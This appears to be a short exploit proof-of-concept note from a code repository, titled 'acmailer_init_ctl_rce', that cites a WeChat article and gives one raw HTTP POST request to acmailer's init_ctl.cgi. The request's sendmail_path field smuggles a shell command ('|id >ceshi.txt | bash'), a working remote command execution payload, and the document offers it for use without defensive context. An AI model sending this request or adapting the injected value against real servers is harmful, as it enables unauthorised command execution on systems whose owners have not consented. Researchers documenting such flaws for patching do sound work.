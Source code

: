 # acmailer_init_ctl_rce

from : https://mp.weixin.qq.com/s/qp496PHNJd5K9NlZCOTWkg

2024.02.06 @2 
```
POST /init_ctl.cgi HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0
Connection: close
Content-Length: 150
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

admin_name=u&admin_email=m@m.m&login_id=l&login_pass=l&sendmail_path=|id >ceshi.txt | bash&homeurl=http://&mypath=e
```
